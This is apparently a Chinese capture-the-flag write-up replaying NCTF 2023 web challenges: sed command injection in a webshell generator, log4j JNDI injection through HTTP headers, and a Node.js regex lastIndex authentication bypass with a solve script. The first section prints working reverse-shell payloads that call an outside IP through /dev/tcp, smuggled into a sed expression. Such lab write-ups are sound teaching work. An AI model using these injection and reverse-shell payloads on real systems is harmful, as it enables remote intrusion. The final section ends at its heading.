# NCTF 2023 复现记录 - 先知社区

NCTF 2023 复现记录

- - -

# \[NCTF 2023\]Webshell Generator

这道题其实可以算是签到题，主要的考点我觉得就是对 linux 三剑客之一的`sed`命令的熟悉程度。

1、首先进入页面，可以看到没有其它东西，是一个 Webshell 的生成器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171234-33c9f4e2-c1ab-1.png)

2、直接抓个包会发现会出现两个 HTTP 包，除了提交数据之外，还会出现一个`302`的重定向响应包，重定向后就会出现内容，在它的`file`参数会明显看到`/tmp/xxxxx`的路径，尝试换成其它文件，发现是存在任意文件读取的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171242-382b6c5a-c1ab-1.png)

3、既然可以读取任意文件，按常规直接读取下`/flag`或者说`/proc/1/envrion`有无非预期 (可惜没有)，那么就只能读源码看看，以下是读取到的源码：

```plain
<?php
function security_validate()
{
    foreach ($_POST as $key => $value) {
        if (preg_match('/\r|\n/', $value)) {
            die("$key 不能包含换行符！");
        }
        if (strlen($value) > 114) {
            die("$key 不能超过 114 个字符！");
        }
    }
}
security_validate();
if (@$_POST['method'] && @$_POST['key'] && @$_POST['filename']) {
    if ($_POST['language'] !== 'PHP') {
        die("PHP 是最好的语言");
    }


    $method = $_POST['method'];
    $key = $_POST['key'];
    putenv("METHOD=$method") or die("你的method太复杂了！");
    putenv("KEY=$key") or die("你的key太复杂了！");
    $status_code = -1;
    $filename = shell_exec("sh generate.sh");
    if (!$filename) {
        die("生成失败了！");
    }
    $filename = trim($filename);
    header("Location: download.php?file=$filename&filename={$_POST['filename']}");
    exit();
}
?>
```

> 接受`POST`请求的`method`、`Key`、`filename`参数，将`METHOD`和`key`放入了环境变量中，对`Key`进行了一定的检查，不允许换行符和不允许超过 114 个字符，随后就通过命令执行函数执行了`generate.sh`

`generate.sh`:

```plain
set -e

NEW_FILENAME=$(tr -dc a-z0-9 </dev/urandom | head -c 16)
cp template.php "/tmp/$NEW_FILENAME"
cd /tmp

sed -i "s/KEY/$KEY/g" "$NEW_FILENAME"
sed -i "s/METHOD/$METHOD/g" "$NEW_FILENAME"

realpath "$NEW_FILENAME"
```

> 看到这里思路就清晰了，整个 bash 脚本随机了一个文件名，将`/var/www/html/template.php`复制到了`/tmp`并重命名，关键是`sed`的处理，直接文件中的`key`和`` `method替换为环境变量中的 ``key`和`method`，而`key`和`method`是我们可控制的，所以有没有情况能够通过`sh`执行脚本触发`rce\`

开始我的想法是通过注释的形式来进行`rce`，因为`key`有长度限制，明智的就是用`method`来触发。

```plain
aaaaa/g" "$NEW_FILENAME";bash -i >& /dev/tcp/120.79.29.170/4444 0>&1 # 

#替换后变成
sed -i "s/METHOD/aaaaa/g" "$NEW_FILENAME";bash -i >& /dev/tcp/120.79.29.170/4444 0>&1 # /g" "$NEW_FILENAME"

比较可惜的是，这样子并不行，报错了，sed: -e expression #1, char 17: unknown option to `s'
```

似乎并不行，改了挺久也没能成功，找下其它思路，比如`sed`本身的东西，发现`sed -e` 有参数可以直接执行脚本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171253-3f2e204c-c1ab-1.png)

所以我们变成：

```plain
aaaa/g;e bash -c "bash -i >& /dev/tcp/120.79.29.170/4444 0>&1";

#整条变成：
sed -i "s/METHOD/aaaa/g;e bash -c "bash -i >& /dev/tcp/ip/4444 0>&1";/g" "$NEW_FILENAME"
```

> 通过;分割命令的参数，整条命令就是将`$NEW_FILENAME`中的`METHOD`替换为`aaaa`，并且执行反弹 shell 的命令，至于`/g`并没有任何作用，只要不报错就好了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171305-460eba20-c1ab-1.png)

# \[NCTF 2023\]logging

这道题考点是`log4j`，并且给的十分明显，但是需要对`log4j`有一定的熟悉程度，从`headers`头中打`log4j`。

1、进入页面，明显的`Apache`框架，`It works`根据之前的经验 + 题目名称一眼丁真也可以判定`log4j`无疑，问题就在于参数呢，`JDNI`的注入点在哪里：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171310-49563226-c1ab-1.png)

2、既然没给到提示，普通的一些参数也无效，把目标转向了`Headers`头，发现只有`Accept`不对的时候，会出现`406`。

> HTTP 406 状态码是指"不可接受"（Not Acceptable）。服务器收到的请求中包含了一个或多个要求资源的表示形式，但服务器无法生成与请求中所述的任何形式相匹配的响应。这意味着服务器无法提供与请求的 Accept 标头中指定的格式相匹配的响应。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171318-4dcf82f8-c1ab-1.png)

3、进一步测试，发现确实存在`JNDI`注入，并且是出网的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171327-5318c918-c1ab-1.png)

4、起个`LDAP`服务，带一个反弹 shell 的恶意类就可以成功拿到 flag。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171332-56177510-c1ab-1.png)

关于`log4j`漏洞的原理，简单分析下，核心代码如下：

1、首先经过`converter.format()`会对内容进行格式化，在格式化的途中，`nolookups`默认是`false`的，表示进行格式化，在格式化的途中，它会取出`${}`中的内容进行替换方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171338-59f79688-c1ab-1.png)

2、在替换的方法中会进行`while`循环，`suffixMatcher.isMatch`会匹配`${` 字符，随手进入到第二层循环中，第二层循环一旦匹配到`}`字符，就会提取出`bufName`，也就是`jndi://ldap://xxx`的内容传到`substitute`方法中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171344-5d43dcb6-c1ab-1.png)

3、而在这个解析的方法中，当它的前缀是`jndi`的时候，就会进入到`lookup`方法，这里前缀还可以是图中其它东西。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171350-611299b8-c1ab-1.png)

4、 `lookup`接口将`jndi`前缀去除，拿到`ldap://`的内容，传到`lookup`中，完成远程类的加载，从而导致了`RCE`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171355-63a0883e-c1ab-1.png)

# \[NCTF 2023\]Wait What

一道关于`node.js`的题目，需要一个小`tricks`绕过正则表达式的匹配，事实上对我来说，看`node.js`总感觉很吃力。

```plain
const express = require('express');
const child_process = require('child_process')
const app = express()
app.use(express.json())
const port = 80

function escapeRegExp(string) {
    return string.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
}

let users = {
    "admin": "admin",
    "user": "user",
    "guest": "guest",
    'hacker':'hacker'
}

let banned_users = ['hacker']

// 你不准 getflag
banned_users.push("admin")

let banned_users_regex = null;
function build_banned_users_regex() {
    let regex_string = ""
    for (let username of banned_users) {
        regex_string += "^" + escapeRegExp(username) + "$" + "|"
    }
    regex_string = regex_string.substring(0, regex_string.length - 1)
    banned_users_regex = new RegExp(regex_string, "g")
}

//鉴权中间件
function requireLogin(req, res, next) {
    let username = req.body.username
    let password = req.body.password
    if (!username || !password) {
        res.send("用户名或密码不能为空")
        return
    }
    if (typeof username !== "string" || typeof password !== "string") {
        res.send("用户名或密码不合法")
        return
    }
    // 基于正则技术的封禁用户匹配系统的设计与实现
    let test1 = banned_users_regex.test(username)
    console.log(`使用正则${banned_users_regex}匹配${username}的结果为：${test1}`)
    if (test1) {
        console.log("第一个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    // 基于 in 关键字的封禁用户匹配系统的设计与实现
    let test2 = (username in banned_users)
    console.log(`使用in关键字匹配${username}的结果为：${test2}`)
    if (test2){
        console.log("第二个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    if (username in users && users[username] === password) {
        next()
        return
    }
    res.send("用户名或密码错误，鉴权失败！")
}

function registerUser(username, password) {
    if (typeof username !== "string" || username.length > 20) {
        return "用户名不合法"
    }
    if (typeof password !== "string" || password.length > 20) {
        return "密码不合法"
    }
    if (username in users) {
        return "用户已存在"
    }

    for(let existing_user in users){
        let existing_user_password = users[existing_user]
        if (existing_user_password === password){
            return `您的密码已经被用户'${existing_user}'使用了，请使用其它的密码`
        }
    }

    users[username] = password
    return "注册成功"
}
app.use(express.static('public'))

app.use(function (req, res, next) {
    try {
        build_banned_users_regex()
        console.log("封禁用户正则表达式（满足这个正则表达式的用户名为被封禁用户名）：",banned_users_regex)
    } catch (e) {
    }
    next()
})

app.post("/api/register", (req, res) => {
    let username = req.body.username
    let password = req.body.password
    let message = registerUser(username, password)
    res.send(message)
})

app.post("/api/login", requireLogin, (req, res) => {
    res.send("登录成功！")
})

app.post("/api/flag", requireLogin, (req, res) => {
    let username = req.body.username
    if (username !== "admin") {
        res.send("登录成功，但是只有'admin'用户可以看到 flag，你的用户名是'" + username + "'")
        return
    }
    let flag = child_process.execSync("cat flag").toString()
    res.end(flag)
    console.error("有人获取到了 flag！为了保证题目的正常运行，将会重置靶机环境！")
    res.on("finish", () => {
        setTimeout(() => { process.exit(0) }, 1)
    })
    return
})

app.post('/api/ban_user', requireLogin, (req, res) => {
    let username = req.body.username
    let ban_username = req.body.ban_username
    if(!ban_username){
        res.send("ban_username 不能为空")
        return
    }
    if(username === ban_username){
        res.send("不能封禁自己")
        return
    }
    for (let name of banned_users){
        if (name === ban_username) {
            res.send("用户已经被封禁")
            return
        }
    }
    banned_users.push(ban_username)
    res.send("封禁成功！")
})

app.get("/", (req, res) => {
    res.redirect("/static/index.html")
})

app.listen(port, () => {
    console.log(`listening on port ${port}`)
})
```

> 要得到 flag，就需要以`admin`用户进行登录从而进行鉴权，就会自动把`flag`给你，但是在代码的前半部分，`admin`直接被加进了封禁用户的数组里面，并且每次登录都会进行中间件的鉴权，通过正则表达式`banned_users_regex.test`判断是否匹配成功，如果成功就直接在中间件返回了，没法拿到 flag。

首先看正则表达式：

```plain
let banned_users_regex = null;
function build_banned_users_regex() {
    let regex_string = ""
    for (let username of banned_users) {
        regex_string += "^" + escapeRegExp(username) + "$" + "|"
    }
    regex_string = regex_string.substring(0, regex_string.length - 1)
    banned_users_regex = new RegExp(regex_string, "g")
}
```

> 相当于遍历封禁用户的数组，将它变成了类似于`^hacker$|^user$`的形式，随后用`g`全局匹配返回一个正则表达式。

这里存在一个`tricks`就是关于**RegExp.lastIndex**我使用，当它开启`g`属性的时候，**lastIndex**会起作用，它用于表示从哪一个位置开始进行匹配：

1、当`regexp.test`匹配成功，`lastIndex`会被设置为最近匹配成功的下一个位置  
2、当`regexp.test`匹配失败，`lastIndex`被设置为 0

例如：

```plain
const s="admin password"
const globalRegex=new RegExp('pass*','g')
console.log(globalRegex.test(s))
//true
console.log(globalRegex.lastIndex)
//10
console.log(globalRegex.test(s))
//false
可以看到第二次再匹配的时候变成了 false，
```

再看第一段监权：

```plain
app.use(function (req, res, next) {
    try {
        build_banned_users_regex()
        console.log("封禁用户正则表达式（满足这个正则表达式的用户名为被封禁用户名）：",banned_users_regex)
    } catch (e) {
    }
    next()
})

    let test1 = banned_users_regex.test(username)
    console.log(`使用正则${banned_users_regex}匹配${username}的结果为：${test1}`)
    if (test1) {
        console.log("第一个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
```

> 每次请求都会通过`build_banned_users_regex()`生成一个新的正则表达式使得每次匹配都从`lastIndex=0`开始，如果能够在第一次匹配到`admin`使得`lastIndex`索引变成`5`之后，第二次没有生成新的就匹配，那么就成功绕过了第一层的鉴权，而这里是使用`try-catch`进行处理的，即使抛出异常，程序也不会中断。所以可以使用其它类型的`ban_username`，就会抛出`TypeError`异常，从而不生成新的`lastIndex`，绕过第一层。

第二层的鉴权，这一层的鉴权就是一个摆设，因为这里是`node`(并不是 Python 什么的)，它返回的并不是元素，所以`test2`一直都是`false`：

```plain
// 基于 in 关键字的封禁用户匹配系统的设计与实现
    let test2 = (username in banned_users)
    console.log(`使用in关键字匹配${username}的结果为：${test2}`)
    if (test2){
        console.log("第二个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    if (username in users && users[username] === password) {
        next()
        return
    }
    res.send("用户名或密码错误，鉴权失败！")
```

```plain
username="admin"
banned_users=["admin"]
let test2 = (username in banned_users)
console.log(test2)
#False
```

解题脚本如下：

```plain
import urllib.parse

import requests
from urllib.parse import *

url='url'
session=requests.Session()
resp=session.post(urllib.parse.urljoin(url,"/api/register"),json={"username":"aiwin","password":"test"})
resp=session.post(urllib.parse.urljoin(url,"/api/ban_user"),json={"username":"aiwin","password":"test","ban_username":{"1":"error"}})
resp=session.post(urllib.parse.urljoin(url,"/api/flag"),json={"username":"admin","password":"admin"})
resp=session.post(urllib.parse.urljoin(url,"/api/flag"),json={"username":"admin","password":"admin"})
print(resp.text)
```

# \[NCTF2023\] ez\_wordpress

